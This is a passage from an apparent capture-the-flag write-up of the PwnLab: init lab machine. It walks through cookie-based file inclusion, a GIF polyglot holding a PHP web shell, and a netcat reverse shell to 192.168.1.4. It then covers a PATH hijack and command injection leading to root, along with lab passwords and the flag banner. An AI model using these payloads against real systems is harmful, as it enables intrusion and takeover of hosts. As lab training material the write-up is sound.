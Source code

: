 I missed it! The include cookie lang statement at the top! No .php affixed there. /facepalm

## Image Polyglot and reverse shell

By setting the cookie to be `lang=../upload/<image name>.gif` or similar I could successfully include my uploaded file content onto the page. I tried just creating a jpeg and `>>` a shell onto the end, but this wasn't getting processed properly.

Ultimately I used [https://github.com/chinarulezzz/pixload](https://github.com/chinarulezzz/pixload), a nice simple tool that can create polyglot images in a variety of formats with whatever payload you want. I ran it as: `./gif.pl -payload '<?php system($_GET["cmd"]); ?>' -o shell.gif` to create an image which sailed passed the upload filter, and then when I included it via the cookie I got that magic `whoami` print `www-data` to the screen.

Using a nc reverse shell (`/?cmd=nc 192.168.1.4 4444 -e /bin/bash`) I had a command line as www-data, which I upgraded with the classic `python -c 'import pty; pty.spawn("/bin/bash")'`

## Enumeration

There seemed to be four accounts of note on the system: `mike`, `kent`, `kane` and `john`.

Going back to the mysql out from before, I tested their passwords. It worked for kent (`JWzXuBJJNy`) and kane (still `iSv5Ym2GRo`), but not mike.

The machine didn't seem to run sudo, just su, so I couldn't do a `sudo -l` as I normally would.

kane had a file called ./msgmike in his home directory, that ran as mike. Running it resulted in the following error: `cat: /home/mike/msg.txt: No such file or directory`

## Final Tricks and Flag

I got more hints here. Overall, while I learned a lot with this lab, I don't feel like I really solved it myself.

Basically:

- By putting a new command into a local file called `cat`, e.g. `echo /bin/bash > ./cat`, with `chmod 777 ./cat` and `export PATH=:./:$PATH`, when ./msgmike is run I end up with a mike shell.
- Mike has a `msg2root` command in his home dir, which when run prompts for input.
- The input is injectable: providing `; /bin/bash -p` I end up with a root shell, where I can then get the flag:

```
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
(__  _) /  __ \                           | |                           (__  _)
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
( _ __)                     __/ |                                       ( _ __)
(__  _)                    |___/                                        (__  _)
(__  _)                                                                 (__  _)
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
(__  _) this challenge.                                                 (__  _)
(_ ___)                                                                 (_ ___)
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
(__  _) reading it                                                      (__  _)
(__  _)                                                                 (__  _)
(__  _)                                             For sniferl4bs.com  (__  _)
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
(__  _)                                                                 (__  _)
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
`-._.-'                                                                 `-._.-'
```